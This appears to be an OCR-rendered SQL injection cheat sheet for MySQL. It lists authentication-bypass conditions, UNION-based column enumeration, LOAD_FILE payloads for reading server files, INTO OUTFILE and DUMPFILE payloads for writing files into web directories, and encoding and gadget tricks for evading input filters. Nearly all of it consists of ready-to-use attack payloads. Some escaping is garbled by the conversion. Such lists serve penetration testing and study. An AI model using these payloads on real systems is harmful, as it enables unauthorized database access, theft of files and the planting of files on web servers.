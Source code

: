 **Authentication bypass ‘=’**  
 select \* from users where name = ”=”  
 select \* from users where false = ”  
 select \* from users where 0 = 0  
 select \* from users where true  
 select \* from users

**Authentication bypass ‘-‘**  
 select \* from users where name = ”-”  
 select \* from users where name = 0-0  
 select \* from users where 0 = 0  
 select \* from users where true  
 select \* from users

**Enumerate number of columns/fields**  
...UNION SELECT 1;--  
...UNION SELECT 1,2;--  
...UNION SELECT 1,2,3;--

**Load file by injecting into the vulnerable field - encode string if necessary**  
…UNION ALL SELECT NULL,LOAD\_FILE\(‘&lt;user-readable-file&gt;’\),NULL,NULL;-- …UNION ALL SELECT NULL,LOAD\_FILE\(‘&lt;user-readable-file&gt;’\),NULL,NULL INTO OUTFILE ‘&lt;writeable-path-or-web-directorygt;’;--

**Dump/Write to file**  
_**\(see encode text/shell to hex, base64\)**_  
...SELECT \* FROM mytable INTO DUMPFILE ‘&lt;writeable-path-or-web-directorygt;’; —  
...SELECT \* FROM mytable INTO OUTFILE ‘&lt;writeable-path-or-web-directorygt;’; —

**General function filtering**  
 ascii \(97\)  
 load\_file/\*foo\*/\(0x616263\)  
**Strings with functions**  
 ‘abc’ = unhex\(616263\)  
 ‘abc’ = char\(97,98,99\)  
 hex\(‘a’\) = 61  
 ascii\(‘a’\) = 97  
 ord\(‘a’\) = 97  
 ‘ABC’ = concat\(conv\(10,10,36\),conv\(11,10,36\),conv\(12,10,36\)\)  
**Strings extracted from gadgets**  
 collation\(\N\) // binary  
 collation\(user\(\)\) // utf8\_general\_ci  
 @@time\_format // %H:%i:%s  
 @@binlog\_format // MIXED  
 @@version\_comment // MySQL Community Server \(GPL\)  
 dayname\(from\_days\(401\)\) // Monday  
 dayname\(from\_days\(403\)\) // Wednesday  
 monthname\(from\_days\(690\)\) // November  
 monthname\(from\_unixtime\(1\)\) // January  
 collation\(convert\(\(1\)using/\*\*/koi8r\)\) // koi8r\_general\_ci  
 \(select\(collation\_name\)from\(information\_schema.collations\)where\(id\)=2\) // latin2\_czech\_cs  
**Special characters extracted from gadgets**  
 aes\_encrypt\(1,12\) // 4çh±{?”^c×HéÉEa  
 des\_encrypt\(1,2\) // ‚GÒ/ïÖk  
 @@ft\_boolean\_syntax // + -&gt;&lt;\(\)~\*:""&\|  
 @@date\_format // %Y-%m-%d  
 @@innodb\_log\_group\_home\_dir // .\  
**Integer representations**  
 false: 0  
 true: 1  
 true+true: 2  
 floor\(pi\(\)\): 3  
 ceil\(pi\(\)\): 4  
 floor\(version\(\)\): 5  
 ceil\(version\(\)\): 6  